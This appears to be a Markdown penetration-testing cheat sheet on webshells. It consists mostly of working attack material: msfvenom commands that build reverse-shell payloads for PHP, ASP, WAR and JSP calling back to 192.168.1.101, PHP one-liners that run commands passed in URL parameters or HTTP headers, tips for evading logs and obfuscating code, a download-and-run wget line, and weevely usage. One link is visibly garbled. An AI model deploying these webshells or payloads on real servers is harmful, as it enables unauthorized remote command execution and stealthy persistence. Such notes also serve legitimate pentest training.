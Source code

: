 # Webshells

## Built in List with Kali Linux

```bash
ls -la /usr/share/webshells
```

## Simple HTTP Server with Upload

```
# wget one liner
wget https://gist.githubusercontent.com/UniIsland/3346170/raw/059aca1d510c615df3d9fedafabac4d538ebe352/SimpleHTTPServerWithUpload.py ; chmod +x SimpleHTTPServerWithUpload.py; ./SimpleHTTPServerWithUpload.py

# git link
https://gist.github.com/UniIsland/3346170
```

## Reverse-Shells

* [https://highon.coffee/blog/reverse-shell-cheat-sheet/](https://highon.coffee/blog/reverse-shell-cheat-sheet/)
* [http://pentestmonkey.net/cheat-sheet/shells/reverse-sthe hell-cheat-sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

## Webshells - Platform Independent

* a webshell is a shell that you can access through the web
* useful for when you have firewalls that filter outgoing traffic on ports other than port 80
* more stealthy since the traffic is hidden in the http traffic.

## PHP

### This PHP-shell is OS-Independent. Inject into Pages that Use PHP

```bash
msfvenom -p php/meterpreter_reverse_tcp LHOST=192.168.1.101 LPORT=443 -f raw > shell.php
```

### Execute One Command

```bash
<?php system("whoami"); ?>
```

### Take Input from the URL Parameter... shell.php?cmd=whoami

```bash
<?php system($_GET['cmd']); ?>
```

### The Same as Above but Using Passthru

```bash
<?php passthru($_GET['cmd']); ?>
```

### For shell_exec to Output the Result, Echo it

```bash
<?php echo shell_exec("whoami");?>
```

### Return the Output as an Array, and then Print it All

```bash
<?php exec("ls -la",$array); print_r($array); ?>
```

### This is a Cool Trick

```bash
<?php preg_replace('/.*/e', 'system("whoami");', ''); ?>
```

### Using Backticks

```bash
<?php $output = `whoami`; echo "<pre>$output</pre>"; ?>
```

```bash
<?php `echo whoami`; ?>
```

### Execute the Commands Like This

```bash
[http://192.168.1.103/index.php?cmd=pwd](http://192.168.1.103/index.php?cmd=pwd)
```

## ASP

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.101 LPORT=443 -f asp > shell.asp
```

## WAR

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.1.101 LPORT=443 -f war > shell.war
```

## JSP

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.1.101 LPORT=443 -f raw > shell.jsp
```

## Access to Different Webshells on Kali

```bash
/usr/share/webshells
```

## Make it Stealthy

* we can make the commands from above a bit more stealthy
* instead of passing the cmds through the url, which will be obvious in logs, we pass them through other header-paramters
* tampterdata, burpsuit, netcat or curl to insert the commands

```bash
<?php system($_SERVER['HTTP_ACCEPT_LANGUAGE']); ?>
```

```bash
<?php system($_SERVER['HTTP_USER_AGENT'])?>
```

```bash
<?php echo passthru($_SERVER['HTTP_ACCEPT_LANGUAGE']); ?>
```

## Obfuscation

### The Following Functions Can be Used to Obfuscate the Code

```bash
eval()
assert()
base64()
gzdeflate()
str_rot13()
```

## Weevely - Incredible tool!

* weevely can create php webshells easily
* weevely generates password /root/webshell.php

### Now Execute it and Get a Shell in Return

```bash
weevely "[http://192.168.1.101/webshell.php](http://192.168.1.101/webshell.php)" password
```

## References

* [http://www.acunetix.com/blog/articles/keeping-web-shells-undercover-an-introduction-to-web-shells-part-3/](http://www.acunetix.com/blog/articles/keeping-web-shells-undercover-an-introduction-to-web-shells-part-3/)
* [http://www.binarytides.com/web-shells-tutorial/](http://www.binarytides.com/web-shells-tutorial/^stage)
